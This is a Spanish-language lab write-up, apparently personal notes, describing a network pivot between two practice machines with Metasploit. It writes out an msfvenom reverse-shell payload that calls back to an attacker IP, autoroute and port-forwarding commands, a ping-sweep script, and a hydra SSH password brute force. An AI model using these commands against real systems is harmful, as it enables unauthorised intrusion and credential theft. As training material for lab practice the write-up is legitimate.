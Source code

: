 Usaremos la máquina friendly 1 intermedia y la máquina basic de vulnyx máquina final:
![[Pasted image 20231112175352.png]]

Procedemos con la intrusión en la máquina friendly 1 hasta ser usuario root:
![[Pasted image 20231112180130.png]]

Ahora vamos a recibir esta conexión como meterpreter en la máquina atacante, por lo que creamos un nuevo payload con msfvenom:
```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.0.32 LPORT=4444 -f elf -b '\x00\x0a\x0d' -o virus
```

Y nos lo compartimos con la máquina víctima:
![[Pasted image 20231112180330.png]]
![[Pasted image 20231112180341.png]]

Y usamos el multi/handler de metasploit cargando el payload de meterpreter:
```bash
set PAYLOAD linux/x86/meterpreter/reverse_tcp
```
![[Pasted image 20231112180455.png]]
![[Pasted image 20231112180530.png]]

Y recibimos el meterpreter:
![[Pasted image 20231112180542.png]]

Vemos las interfaces de red con el comando ipconfig, donde identificamos la segunda interfaz de red:
![[Pasted image 20231112180611.png]]

Enrutamos el tráfico con el módulo de autoroute:
```bash
use /multi/manage/autoroute
```
![[Pasted image 20231112180736.png]]

Y ahora tenemos que encontrar equipos levantados dentro de esta red interna de 10.10.10.0/24, por lo que usamos el siguiente script:
```bash
#!/bin/bash

for i in {1..255}; do
    timeout 1 bash -c "ping -c 1 10.10.10.$i" >/dev/null
    if [ $? -eq 0 ]; then
        echo "El host 10.10.10.$i está activo"
    fi
done
```

Lo compartimos:
![[Pasted image 20231112180923.png]]

Lo recibimos:
![[Pasted image 20231112181016.png]]

Y encontramos el host objetivo:
![[Pasted image 20231112181055.png]]

Ahora tenemos que hacerle un escaneo de puertos a esta dirección IP, por lo que usamos el módulo de portscan/tcp:
![[Pasted image 20231112181214.png]]

Y con los siguientes comandos realizamos el port forwarding, de tal forma que nos vamos a traer tanto el puerto 22 como el puerto 631:
```bash
portfwd add -l 222 -p 22 -r 10.10.10.8
portfwd add -l 631 -p 631 -r 10.10.10.8
```
![[Pasted image 20231112181340.png]]

Y aquí vemos el contenido de lo que corre por el puerto 631:
![[Pasted image 20231112181426.png]]

Detectamos el usuario:
![[Pasted image 20231112181437.png]]

Por lo que atacamos al puerto ssh que también nos hemos traído en el puerto 222 de mi máquina local:
```bash
hydra -l dimitri -P /usr/share/wordlists/rockyou.txt ssh://127.0.0.1 -s 222
```
